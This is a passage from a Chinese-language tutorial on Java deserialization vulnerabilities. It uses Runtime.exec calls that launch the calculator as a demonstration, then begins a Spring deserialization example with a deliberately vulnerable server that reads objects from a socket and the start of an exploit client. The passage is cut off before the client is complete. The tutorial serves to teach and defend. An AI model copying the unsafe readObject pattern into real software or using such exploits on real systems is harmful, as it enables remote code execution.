 ```java
Runtime.getRuntime().exec("open https://www.baidu.com/");
```
可以再把这段代码改造一下，内容如下：
```java
//mac系统，执行打开计算器程序命令
Runtime.getRuntime().exec("open /Applications/Calculator.app/");

//windows系统，执行打开计算器程序命令
Runtime.getRuntime().exec("calc.exe");
```
运行程序后，可以很轻松的打开电脑中已有的任意程序。<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1634686747720-b02d319b-3f6d-41d7-95d6-b493dfd9e7c6.webp#clientId=u743221fb-74bb-4&from=paste&id=ub12915a0&originHeight=551&originWidth=1080&originalType=url&ratio=1&status=done&style=shadow&taskId=u94c2efa0-b67b-49d7-8955-7378436f0d5)<br />很多人可能不知道，这里的`readObject()`是可以重写的，只是`Serializable`接口没有显示的把它展示出来，`readObject()`方法的作用是从一个源输入流中读取字节序列，再把它们反序列化为一个对象，并将其返回，以定制反序列化的一些行为。<br />可能有的同学会说，实际开发过程中，不会有人这么去重写`readObject()`方法，当然不会，但是实际情况也不会太差。
<a name="SykqW"></a>
#### 2.2、Spring 框架的反序列化漏洞
以当时的 Spring 框架爆出的反序列化漏洞为例，请看当时的示例代码。<br />首先创建一个 server 代码：
```java
public class ExploitableServer {

    public static void main(String[] args) {
        try {
            //创建socket
            ServerSocket serverSocket = new ServerSocket(Integer.parseInt("9999"));
            System.out.println("Server started on port "+serverSocket.getLocalPort());
            while(true) {
                //等待链接
                Socket socket=serverSocket.accept();
                System.out.println("Connection received from "+socket.getInetAddress());
                ObjectInputStream objectInputStream = new ObjectInputStream(socket.getInputStream());
                try {
                    //读取对象
                    Object object = objectInputStream.readObject();
                    System.out.println("Read object "+object);
                } catch(Exception e) {
                    System.out.println("Exception caught while reading object");
                    e.printStackTrace();
                }
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```
然后创建一个 client 代码：
```java
public class ExploitClient {

    public static void main(String[] args) {
        try {
            String serverAddress = "127.0.0.1";
            int port = Integer.parseInt("1234");
            String localAddress= "127.0.0.1";

            System.out.println("Starting HTTP server");   //开启8080端口服务
            HttpServer httpServer = HttpServer.create(new InetSocketAddress(8080), 0);
            httpServer.createContext("/",new HttpFileHandler());
            httpServer.setExecutor(null);
            httpServer.start();

```